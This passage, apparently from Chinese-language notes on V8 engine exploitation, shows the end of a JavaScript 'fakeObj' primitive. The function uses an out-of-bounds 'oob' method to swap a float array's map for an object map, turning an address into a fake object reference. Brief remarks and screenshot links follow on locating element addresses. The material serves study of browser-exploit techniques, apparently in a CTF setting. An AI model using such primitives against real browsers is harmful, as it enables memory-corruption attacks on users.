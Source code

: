 ```js
	flt_array[0] = addr;
	flt_array.oob(obj_map);
	let fake = flt_array[0];
	flt_array.oob(flt_map);
	return fake;
}

```

这样就输出了地址

![](../images/Pasted%20image%2020250512095642.png)

根据之前的理解，这个是首地址，可以在里面找到元素地址
![](../images/Pasted%20image%2020250512100004.png)
进而找到实际第一个元素内容
